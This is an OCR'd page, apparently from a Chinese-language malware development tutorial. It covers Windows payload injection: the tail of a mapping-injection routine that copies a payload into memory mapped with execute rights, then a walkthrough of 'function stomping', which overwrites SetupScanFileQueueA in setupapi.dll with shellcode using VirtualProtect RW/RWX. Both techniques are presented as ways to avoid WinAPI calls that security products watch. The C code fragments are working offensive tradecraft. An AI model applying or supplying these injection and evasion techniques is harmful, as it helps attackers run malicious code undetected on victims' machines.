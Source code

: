 ```
// Maps the view of the payload to the memory
pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NU
LL, NULL, sPayloadSize);
if (pMapAddress == NULL) {
printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
 // Copying the payload to the mapped memory
memcpy(pMapAddress, pPayload, sPayloadSize);
_EndOfFunction:
*ppAddress = pMapAddress;
if (hFile)
CloseHandle(hFile);
return bSTATE;
}
```  
## 本地函数踩踏注⼊  
  
前⾯演示的映射注⼊模块⽤于避免使⽤VirtualAlloc/ExWinAPI 调⽤。本模块将演示另⼀种避免使⽤这些 WinAPI 的⽅法。  
### 函数踩踏  
  
术语“stomping”指的是⽤不同的数据覆盖或替换程序中函数或其他数据结构的内存的⾏为。  
  
函数踩踏是⼀种技术，其中原始函数的字节被新代码替换，导致函数被替换或不再按预期⼯作。相反，该函数将执⾏不同的逻辑。要实现这⼀点，需要踩踏牺牲函数地址。  
### 选择⽬标函数  
  
在本地检索函数的地址很简单，但检索哪个函数是此技术的主要关注点。覆盖常⽤函数可能会导致有效负载。不受控制地执⾏，或者进程崩溃。避免使⽤ntdll中的函数。相反，应该针对不太常⽤的函数，例如，MessageBox因为操作系统或其他应⽤程序很少会使⽤它。  
### 使⽤ Stomped 函数  
  
当⽬标函数的字节被替换为有效载荷的字节时，该函数将⽆法再使⽤，除⾮它专⻔⽤于执⾏有效载荷。例如，如果⽬标函数是MessageBoxA那么⼆进制⽂件应该只调⽤MessageBoxA⼀次，即执⾏有效载荷时。  
### 本地函数踩踏代码  
  
对于下⾯的代码演示，⽬标函数是SetupScanFileQueueA。这是⼀个完全随机的函数，但如果被覆盖，不太可能导致任何问题。根据微软的⽂档，该函数是从setupapi.dll导出的  
  
SetupScanFileQueueA。因此，第⼀步是Setupapi.dll使⽤ LoadLibraryA加载到本地进程内存中，然后使⽤GetProcAddress检索函数的地址GetProcAddress。  
  
下⼀步是破坏该函数并将其替换为有效载荷。通过使⽤ 将其内存区域标记为可读和可写，确保可以覆盖该函数VirtualProtect。接下来，将有效载荷写⼊函数的地址，最后VirtualProtect再次使⽤  
  
该区域将该区域标记为可执⾏（RX或RWX）  
```
#define SACRIFICIAL_DLL "setupapi.dll"
#define SACRIFICIAL_FUNC "SetupScanFileQueueA"
// ...
BOOL WritePayload(IN PVOID pAddress, IN PBYTE pPayload, IN SIZE_T sPayload
Size) {
DWORD dwOldProtection = NULL;
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtec
tion)){
printf("[!] VirtualProtect [RW] Failed With Error : %d \n", GetLastErr
or());
return FALSE;
}
memcpy(pAddress, pPayload, sPayloadSize);
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwO
ldProtection)) {
printf("[!] VirtualProtect [RWX] Failed With Error : %d \n", GetLastEr
ror());
return FALSE;
}
```